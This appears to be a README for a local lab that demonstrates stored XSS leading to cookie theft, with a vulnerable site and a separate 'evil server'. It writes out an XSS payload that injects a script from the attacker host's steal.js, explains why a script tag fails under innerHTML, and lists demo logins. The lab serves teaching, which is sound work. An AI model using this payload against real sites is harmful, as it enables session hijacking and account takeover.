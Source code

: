# What is it about?
![Logic](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/Inkodo-2025429_34717.png)  

# How to use this?
+ `cd .\normal-site\ & npm install express body-parser`
+ `node .\app.js`
+ `cd .\evil-server\ & npm install express`
+ `node .\steal_cookie.js`
+ Open browser and visit website at `http://localhost:3000`
+ Try to post your comment on the page, and inspect the changes from browser Network/Elements Tab  
![StoredXSS](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429091459.png)  
Recommended XSS payload: `<img src="x" onerror="const s=document.createElement('script');s.src='http://localhost:4000/steal.js';document.body.appendChild(s);" />`  
Not recommended XSS payload: `<script src="http://localhost:4000/steal.js"></script>`. This is because the limitations of `innerHTML`. The `<script>` tag dynamically inserted through `innerHTML` will be parsed by browser as a text node rather than an executable script.   
![Preflight Request](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429091822.png)  
+ Pretend to be a normal user, revisit website at `http://localhost:3000`, and log in by entering correct username/password, so that cookie will be stored in browser:  
`admin/admin123`  
`user1/password1`  
![Cookie in browser](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/67tool-2025-04-29%2009_26_03.png)  
+ Inspect the result from terminal(evil-server)  
![Cookie Theft](https://github.com/dark-pool/Web-Security/blob/main/Test%20Experiment/XSS%2BCookieTheft/Output/20250429092022.png)  